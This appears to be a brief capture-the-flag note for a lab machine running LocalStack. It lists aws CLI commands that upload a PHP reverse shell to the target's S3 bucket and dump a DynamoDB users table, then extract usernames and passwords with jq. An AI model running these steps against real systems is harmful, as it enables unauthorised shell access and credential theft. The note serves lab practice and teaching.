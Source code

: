 [LocalStack](https://github.com/localstack/localstack)
## Test for non-null credentials
- Configure Creds to not be null with 
```bash
aws config
```

## Abuse Creds to get shell
- Login with the newly created creds
```bash
aws --endpoint-url http://s3.bucket.htb ls
```
- Copy reverse shell to pwd
```bash
aws --endpoint-url http://s3.bucket.htb cp rev.php s3://adserver/
```

## Enumerate dynamodb
- List tables
```bash
aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
```
- Dump table
```bash
aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users
```
- Clean table output using jq
```bash
aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[] | "\(.username[]):\(.password[])"'
```